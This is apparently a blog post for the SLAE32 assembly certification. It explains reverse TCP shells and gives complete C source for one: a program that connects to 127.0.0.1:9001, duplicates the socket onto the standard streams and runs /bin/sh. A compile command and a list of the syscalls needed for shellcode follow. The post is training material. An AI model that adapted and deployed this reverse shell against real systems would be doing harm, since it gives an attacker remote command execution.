```yaml
---
title: SLAE32 - Assignment#2 [Reverse TCP Shell]
author: bigb0ss
date: 2020-12-13 13:26:00 +0800
categories: [SLAE32, Assignment_2_Reverse-TCP-Shell]
tags: [slae32, assembly, x86, Reverse TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#2 Github](https://github.com/bigb0sss/SLAE32)


# Assignement #2 
* Create a Shell_Reverse_TCP shellcode
	- Reverse connects to configured IP and Port
	- Execs shell on successful connection
* IP and Port should be easily configurable

# What is a Reverse Shell?
Oppose to a Bind Shell, a Reverse Shell connects back to the attacker's computer upon a payload executed on the victim's system. This type of shell is more useful when the target organization has a strong Firewalls for inbound connection. The Reverse Shell can take the advantage of common outbound ports such as port 80, 443, 53 and etc. 

![image](/assets/img/post/slae32/assignment2/01.png)

# Socket Programming
Similar to the Bind TCP Shell exercise, let's create a Reverseh TCP Shell in a higher programming language. We will use `C` again:

```c++
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    int sockfd;
	int port = 9001;

	// Address struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port); 
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");

   	// 1) Socket Syscall (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // 2) Connect Syscall
    connect(sockfd, (struct sockaddr *) &addr, sizeof(addr));
    
    // 3) Dup2 Syscall
    dup2(sockfd, 0);    //stdin
    dup2(sockfd, 1);    //stdout
    dup2(sockfd, 2);    //stderr

    // 4) Execve Syscall
    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

Let's compile this: 

```console
gcc reverse-tcp-shell.c -o reverse-tcp-shell -w
```

The compiled reverse shell binary can successfully connect back to `127.0.0.1:9001` as expected.

![image](/assets/img/post/slae32/assignment2/02.png)


# Shellcode

For the Reverse TCP Shell, we need to following `syscalls`:

1) Socket: Initializing the Socket connection
2) Connect: Creating the Connect call to the given address
3) Dup2: Manages `stdin`, `stdout` and `stderr` for the file descriptor. This is necessary for input and output redirection.
4) Execve: Execute a command (/bin/sh to spawn a shell)

